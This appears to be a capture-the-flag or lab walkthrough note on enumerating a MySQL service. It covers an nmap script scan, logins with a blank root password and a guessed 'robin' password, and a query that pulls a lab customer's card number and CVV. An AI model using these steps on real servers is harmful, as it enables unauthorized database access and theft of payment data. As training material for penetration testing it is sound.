

# 🟢 MySQL

```
sudo nmap 10.129.5.62 -sV -sC -p3306 --script mysql*
```

```
mysql -u root -h 10.129.5.62
```

```
mysql -u robin -probin -h 10.129.5.62
```

<figure><figcaption></figcaption></figure>

```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| customers          |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.013 sec)
```

```
MySQL [(none)]> use customers;
```

```
MySQL [customers]> show tables;
+---------------------+
| Tables_in_customers |
+---------------------+
| myTable             |
+---------------------+
1 row in set (0.004 sec)
```

```
MySQL [customers]> select * from myTable where name="Otto Lang";
+----+-----------+---------------------+---------+-----------+---------+-----------------+------------------+------+
| id | name      | email               | country | postalZip | city    | address         | pan              | cvv  |
+----+-----------+---------------------+---------+-----------+---------+-----------------+------------------+------+
| 88 | Otto Lang | ultrices@google.htb | France  | 76733-267 | Belfast | 4708 Auctor Rd. | 5322224628183391 | 595  |
+----+-----------+---------------------+---------+-----------+---------+-----------------+------------------+------+
1 row in set (0.004 sec)
```
